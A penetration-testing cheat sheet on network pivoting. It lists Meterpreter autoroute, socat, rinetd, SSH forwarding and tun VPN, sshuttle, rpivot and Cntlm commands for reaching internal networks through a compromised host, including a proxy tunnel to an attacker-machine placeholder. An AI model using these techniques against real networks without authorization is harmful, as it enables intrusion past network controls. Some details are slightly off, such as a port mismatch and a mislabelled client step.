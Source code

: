 ## Pivoting

Pivoting is a process of moving from one compromised host to another.
It's a unique technique of using an instance (also referred as a "plant" or a "foothold") to be able to more around inside a network.

### Pivoting with Meterpreter

```bash
meterpreter > run autoroute -s 7.7.7.0/24
meterpreter > run autoroute -p
meterpreter > run post/windows/gather/arp_scanner RHOSTS=7.7.7.0/24
```

```bash
msf > use auxiliary/server/socks4
msf > run
```


### Pivoting with rinetd

```bash
apt install rinetd
cat /etc/rinetd.conf
systemctl start rinetd
rinetd -f
```

### Pivoting with socat

Redirecting 9000/tcp -> 127.0.0.1:8080/tcp:

```bash
socat tcp-l:9000,fork,reuseaddr tcp:127.0.0.1:8000
```

Binding on the given address:

```bash
socat tcp-l:9000,fork,reuseaddr,bind=192.168.0.102 tcp:127.0.0.1:8000
```

### Pivoting with ssh

Initiating a connection to the compromised host:

```bash
ssh -o “PasswordAuthentication=yes” -o "StrictHostKeyChecking=no" hacker@10.11.0.163 -R 3306:127.0.0.1:3306 
```

```bash
ssh hacker@10.11.0.163 -D 1080
```

```bash
ssh hacker@10.11.0.163 -L 445:192.168.1.1:445
```

Creating reverse connections from the compromised host (binding a dynamic proxy):

```bash
ssh gh0st@10.10.10.10 -D 127.0.0.1:9050 -R 127.0.0.1:9050:127.0.0.1:9050 -N -f
```

### Using sshuttle

Forwarding all traffic to the remote network:

```bash
sshuttle -r username@remotehost 0.0.0.0/0
```

Restricting the VPN to specific subnets rather than all network traffic:

```bash
sshuttle -r username@remotehost 10.0.0.0/8 172.16.0.0/16
```

Forwarding DNS queries:

```bash
sshuttle --dns -r username@remotehost 10.0.0.0/8 172.16.0.0/16
```


### Deploying VPN over ssh

Since openssh release 4.3 it is possible to tunnel layer 3 network traffic via an established ssh channel. This has an advantage over a typical tcp tunnel because you are in control of ip traffic. 
So, for example, you are able to perform SYN-scan with nmap and use your tools directly without resorting to `proxychains` or other proxifying tools. 
It’s done via the creation of **tun** devices on client and server side and transferring the data between them over ssh connection. 

This is quite simple, but you need root on both machines since the creation of tun devices is a privileged operation. 

These lines should be present in your `/etc/ssh/sshd_config` file (server-side):
```text
    PermitRootLogin yes
    PermitTunnel yes
```

Creating a pair of tun devices:

```bash
ssh user@host -w any:any
```

Configuring the client interface:

```bash
ip addr add 1.1.1.2/32 peer 1.1.1.1 dev tun0
```

Configuring the server interface:

```bash
ip addr add 1.1.1.1/32 peer 1.1.1.2 dev tun0
```

Enabling IP forwarding and NAT on the server:

```bash
echo 1 > /proc/sys/net/ipv4/ip_forward
iptables -t nat -A POSTROUTING -s 1.1.1.2 -o eth0 -j MASQUERADE
```

Routing through the given gateway:

```bash
route add -net 10.0.0.0/16 gw 1.1.1.1
```

### Pivoting with redsocks

- https://crosp.net/blog/administration/install-configure-redsocks-proxy-centos-linux/

### Pivoting with rpivot

- https://github.com/artkond/rpivot 

This is a method of traversing NAT connections. This is a reverse socks proxy tool that allows you to tunnel traffic via socks proxy. 
As a result, a socks4 proxy service will be bound server side on port 1080.

Running on the server side:

```bash
python server.py --proxy-port 1080 --server-port 9999 --server-ip 0.0.0.0
```

Running on the server side:

```bash
python client.py --server-ip <ip> --server-port 9999
```

### Pivoting with Cntlm

- http://cntlm.sourceforge.net/ is the tool of choice for running any non-proxy aware programs over NTLM-proxy.

Basically this tool authenticates against a proxy and binds a port locally that is forwarded to the external service you specify. 
This port bound does not require any authentication so you can use your tools directly (putty/ssh for example). It uses a config file for its operation. 

Here’s a bare-bones config example to forward port 443 (this port is most likely to be allowed through the proxy):

```text
    Username Alice
    Password [email protected]
    Domain CONTOSO.COM
    Proxy 10.0.0.10:8080
    Tunnel 2222:<attackers_machine>:443
```

Given you have ssh running on the remote host on port 443, you can launch ssh client (openssh/putty) and connect to local port 2222 to get access to the external machine.

Running the tool:

```bash
cntlm.exe -c config.conf
```
